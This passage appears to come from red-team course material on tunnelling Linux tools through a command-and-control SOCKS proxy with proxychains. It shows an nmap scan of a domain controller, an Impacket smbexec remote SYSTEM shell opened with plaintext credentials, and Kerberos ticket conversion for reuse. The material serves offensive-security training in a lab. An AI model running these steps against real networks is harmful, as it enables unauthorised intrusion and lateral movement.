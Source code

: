 Using a text editor, such as vim or nano, open `/etc/proxychains.conf` for editing.

First, scroll to line 38 and comment out `proxy_dns`.  Then, scroll to line 64 and you will see the following default proxy entry: `socks4 127.0.0.1 9050`.  We need to replace this so that it points to the IP and port of the SOCKS server running on the team server, e.g. `socks4 10.0.0.5 1080`.

Now we can wrap a tool with proxychains, such as nmap.

>WSL inherits static host entries from Windows, so you don't need to add them to `/etc/hosts` if you've already added them in Windows.

```powershell
attacker@DESKTOP-FGSTPS7:~$ proxychains nmap -n -sT -Pn -p 445 lon-dc-1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2025-04-28 13:03 UTC
|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.1:445-<><>-OK
Nmap scan report for lon-dc-1 (10.10.120.1)
Host is up (0.12s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

We could even execute a remote shell on the target using Impacket with plaintext credentials.

```powershell
attacker@DESKTOP-FGSTPS7:~$ proxychains smbexec.py 'CONTOSO/rsteel:Passw0rd!@lon-ws-1'
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.10:445-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>hostname
lon-ws-1

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>exit
```

### Authentication

Impacket (and other Linux tools) can also use Kerberos tickets, but they need to be in [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) format.   `ticketConverter.py` can convert from kirbi to ccache and vice versa.

```powershell
attacker@DESKTOP-FGSTPS7:/mnt/c/Users/Attacker/Desktop$ ticketConverter.py rsteel.kirbi rsteel.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```
